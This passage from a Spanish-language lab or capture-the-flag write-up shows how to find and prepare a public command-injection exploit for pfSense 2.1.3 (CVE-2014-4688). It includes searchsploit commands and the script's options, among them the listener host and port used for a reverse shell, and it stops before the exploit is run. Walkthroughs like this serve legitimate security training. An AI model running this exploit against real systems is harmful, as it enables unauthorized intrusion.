 
<h2 id="PruebaExp">Buscando un Exploit para pfSense</h2>

Como ya encontramos la versión de pfSense que está ocupando la máquina víctima, vamos a buscar un Exploit adecuado que nos ayude a acceder a la máquina:

```bash
searchsploit pfsense 2.1.3                                                                               
----------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                             |  Path
----------------------------------------------------------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                             | php/webapps/43560.py
----------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
Solo nos aparece un Exploit, así que vamos a analizarlo para ver cómo usarlo contra la máquina.

<br>

<h3 id="PruebaExp2">Probando Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection</h3>

Copia el Exploit en tu espacio de trabajo:
```bash
searchsploit -m php/webapps/43560.py 
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
    Codes: CVE-2014-4688
 Verified: False
File Type: Python script, ASCII text executable
```

Después de ver el contenido del Exploit, nos pide los siguientes parámetros:
```python
rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password
```

Incluso si lo ejecutamos, nos dirá como usarlo pues ya tiene permisos de ejecución:
```bash
./PFSense_Exploit.py -h
usage: PFSense_Exploit.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT] [--username USERNAME] [--password PASSWORD]

options:
  -h, --help           show this help message and exit
  --rhost RHOST        Remote Host
  --lhost LHOST        Local Host listener
  --lport LPORT        Local Port listener
  --username USERNAME  pfsense Username
  --password PASSWORD  pfsense Password
```
Muy bien, pongamos lo que pide y activémoslo.

